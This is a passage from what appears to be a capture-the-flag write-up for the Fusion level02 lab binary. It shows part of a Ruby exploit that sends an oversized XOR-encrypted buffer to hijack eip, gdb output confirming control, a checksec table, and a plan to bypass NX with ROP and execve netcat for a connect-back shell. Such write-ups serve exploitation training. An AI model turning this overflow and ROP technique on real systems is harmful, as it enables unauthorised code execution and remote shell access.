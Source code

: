   longdata = "A" * 0x20010
  longdata += [0xdeadbeef].pack('V')
  e = xor_encrypt(longdata, key)
  encrypt(e.length, e)

  # Send the quit command
  sock.put('Q')
  disconnect
end
{% endhighlight %}

Attach gdb, reload the exploit, and send it:

{% highlight bash %}
root@fusion:/home/fusion# gdb -q
0xb7750424 in __kernel_vsyscall ()
(gdb) c
Continuing.
[New process 29112]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 29112]
0xdeadbeef in ?? ()
(gdb)
{% endhighlight %}

Confirmed we can control eip! Time to start the exploit!

## <a name="making-a-plan"></a> Making a Plan
---
We have control of eip and can put arbitrary data on the stack, but NX is enabled.

{% highlight bash %}
(gdb) checksec
| NX  | PIE | Canary | Relro   | Path      
| Yes | No  | No     | No      | /opt/fusion/bin/level02
| Yes | Yes | Yes    | Partial | /lib/i386-linux-gnu/libc.so.6
| Yes | Yes | No     | Partial | /lib/ld-linux.so.2

{% endhighlight %}

To get around this protection we will use return oriented programming (ROP). [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) is a fantastic tool to find rop gadgets. This tool found 126 gadgets in the level02 binary.

We can use `execve` to execute netcat and open a connect back shell. The `execve` function takes an array of string pointers as an argument. Therefore We must have a number of strings at known memory locations. We can store data from the socket at an arbitrary location using `nread`. We will store this data in the [bss](http://en.wikipedia.org/wiki/.bss) section because it is not ASLR enabled, it is readble, and it is writable.
